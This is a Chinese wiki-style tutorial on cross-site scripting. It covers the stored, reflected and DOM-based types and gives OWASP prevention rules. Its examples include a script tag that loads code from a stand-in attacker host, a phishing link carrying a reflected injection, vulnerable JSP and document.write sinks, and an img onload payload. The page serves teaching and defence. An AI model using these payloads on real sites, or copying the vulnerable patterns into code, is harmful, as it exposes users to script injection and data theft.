 跨站脚本攻击(XSS - Cross Site Scripting)
==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

==分类==
===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点
1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>
2.
2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

DOM Based XSS
  你的程序本身存在一些依赖于来自于客户端的数据并展示，但是对来源数据为做安全检查。



==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 这里]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API

参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)